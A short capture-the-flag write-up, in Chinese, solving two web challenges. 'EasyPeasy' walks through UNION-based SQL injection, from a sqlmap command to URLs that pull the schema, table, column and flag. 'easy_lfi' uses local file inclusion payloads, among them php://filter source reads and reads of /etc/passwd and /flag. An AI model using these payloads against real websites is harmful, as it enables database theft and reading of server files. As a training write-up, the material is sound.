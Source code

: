### EasyPeasy

一連上去先用自動帶我們到 http://xxx/news.php?id=1

先 `sqlmap -u http://xxx/news.php?i --random-agent` 

(以上xxx為題目URL)

找到playload `id=-4031 UNION ALL SELECT NULL,NULL,CONCAT(0x7171706a71,0x6872464461534467546173754f6d554f5a454178556d6f6f546578736a4
f4274506a4c596a76774e,0x717a707671)-- hZDH`

先撈DB

`http://140.110.112.32:4001/news.php?id=-4031 union select 1, database(), group_concat(schema_name) from information_schema.schemata -- -`

回傳 : information_schema,fl4g,mysql,news,test

撈TABLE

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(TABLE_NAME)) from information_schema.tables where table_schema='fl4g' -- -`

回傳 : secret

撈COLUMN

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',group_concat(column_name)) from information_schema.columns where table_name='secret' -- -
`

回傳 : id,THIS_IS_FLAG_YO

撈value

`http://140.110.112.32:4001/news.php?id=-4031%20UNION%20ALL%20SELECT%201,database(),CONCAT('','',THIS_IS_FLAG_YO) from fl4g.secret-- -`

FLAG就出來了

### easy_lfi

題目url結尾是`?f=about.php`這樣

然後提示LFI了 所以把幾個頁面的source code解出來

`?f=php://filter/read=convert.base64-encode/resource=xd.php`

`?f=php://filter/read=convert.base64-encode/resource=about.php`

`?f=php://filter/read=convert.base64-encode/resource=index.php`

都沒東西 換一個方向

`?f=../../../../../etc/passwd`

出現警告`Oops! ../ will be filtered. You are Bad Hacker!`

所以直接用

`?f=/etc/passwd`

正常顯示

然後隨便猜一下

`?f=/flag`

完工
